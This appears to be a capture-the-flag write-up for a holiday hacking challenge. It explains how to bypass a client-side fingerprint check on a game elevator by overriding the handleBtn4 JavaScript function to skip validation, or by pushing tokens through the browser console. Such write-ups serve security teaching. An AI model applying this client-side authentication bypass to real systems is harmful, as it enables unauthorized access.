

10) Defeat Fingerprint Sensor
Dificulty: 3/5
Bypass the Santavator fingerprint sensor. Enter Santa's office without Santa's fingerprint.
Client side authentication
The elevator works using client side validations to check if the button is enabled and if the token besanta is on the list of tokens.
The code that validates the fingerprint is downloaded from https://elevator.kringlecastle.com/app.js.
The simplest bypass is to modify the code in Chrome and replace the function handleBtn4 from the line 349 to 381 with one that performs no validation and save the changes.
const handleBtn4 = () => {
const cover = document.querySelector('.print-cover');
cover.classList.add('open');
cover.addEventListener('click', () => {
$.ajax({
type: 'POST',
url: POST_URL,
dataType: 'json',
contentType: 'application/json',
data: JSON.stringify({
targetFloor: '3',
id: getParams.id,
}),
success: (res, status) => {
if (res.hash) {
__POST_RESULTS__({
resourceId: getParams.id || '1111',
hash: res.hash,
action: 'goToFloor-3',
});
}
}
});
});
};
Once the changes to the local code is saved we press the fingerprint button.
Alternate solution
We can also use the Chrome console to modify the content of the variables in the DOM and push the right tokens.
tokens = ["marble", "elevator-key", "nut2", "yellowlight", "candycane", "nut", "ball", "greenlight", "workshop-button", "redlight", "besanta"]
